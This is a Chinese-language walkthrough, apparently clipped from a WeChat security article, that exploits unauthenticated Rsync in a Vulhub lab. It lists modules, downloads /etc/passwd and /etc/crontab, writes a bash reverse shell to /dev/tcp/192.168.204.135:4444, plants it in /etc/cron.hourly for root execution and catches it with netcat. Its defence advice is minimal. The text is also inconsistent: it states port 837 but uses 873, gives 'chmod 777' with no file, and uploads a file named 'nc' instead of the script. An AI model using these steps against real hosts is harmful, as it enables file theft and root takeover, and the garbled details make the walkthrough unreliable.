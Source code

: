 ```yaml
---
title: Rsync 未授权访问
url: https://mp.weixin.qq.com/s?__biz=Mzg4MTU4NTc2Nw==&mid=2247491292&idx=1&sn=ba2c3c69472b0d6374358c388d58cc7d&chksm=cf62e5d4f8156cc2e468f471fbd8c063aefdd490d27f4037e4cf05690f060442cfe088b16b26&mpshare=1&scene=1&srcid=0314itbr9CfQ9MyBjrMnXMzJ&sharer_shareinfo=1d61dc4744f47bcfee1d44f6e95258d7&sharer_shareinfo_first=1d61dc4744f47bcfee1d44f6e95258d7#rd
clipped_at: 2024-03-31 16:04:07
category: temp
tags: 
 - mp.weixin.qq.com
---
```



# Rsync 未授权访问

#### 漏洞简介

Rsync(Remote Sync) 是一个用于文件和目录同步的开源工具，广泛用于 Linux 和 Unix 系统中，它通过比较源文件和目标文件的差异只传输变化的部分，实现高效的增量备份和文件同步，Rsync 默认允许匿名访问，如果在配置文件中没有相关的用户认证以及文件授权就会触发隐患，Rsync 的默认端口为 837

#### 环境搭建

这里我们使用 Vulhub 来构建环境

```plain
docker-compose up -d
```

#### 漏洞检测

```plain
#命令格式
rsync rsync://{target_ip}/

#执行示例
rsync rsync://192.168.204.191:873/
rsync rsync://192.168.204.191:873/src
```

![图片](assets/1711872247-c794c1bee35bb5cf0cde361756583a6f.webp)

#### 文件下载

任意文件下载

```plain
rsync rsync://192.168.204.191:873/src/etc/passwd ./
```

![图片](assets/1711872247-b19aed0fba2b13eed3cd1070bc8871e7.webp)

#### 反弹 Shell

通过使用 rsync 反弹 shell

```plain
# 下载 crontab 配置文件
rsync rsync://192.168.204.191:873/src/etc/crontab ./


该环境 crontab 中的以下内容表示每小时的第 17 分钟执行 run-parts --report /etc/cron.hourly
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
```

![图片](assets/1711872247-d9ff065caec2000878d4b9fef8b52ee7.webp)

随后我们写入 bash 并赋权：

```plain
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.204.135/4444 0>&1
```

![图片](assets/1711872247-9b495b33d20b871b165cd1accc2eea0e.webp)

```plain
chmod 777
```

![图片](assets/1711872247-8bd51bfee31b77f8359082030cabdc6d.webp)

随后我们将文件上传至/etc/cron.hourly

```plain
rsync -av nc rsync://192.168.204.191:873/src/etc/cron.hourly
```

![图片](assets/1711872247-f677520e6be2f6a63e8cc1866df2fec0.webp)

```plain
# 本地监听 4444
nc -lnvp 4444
```

![图片](assets/1711872247-d543f3e93bf599a319000114589d692d.webp)

反弹成功：

![图片](assets/1711872247-7409138208c1054d347e6565291fdbc7.webp)

#### 防御手段 

-   数据加密传输等
    

-   访问控制：控制接入源 IP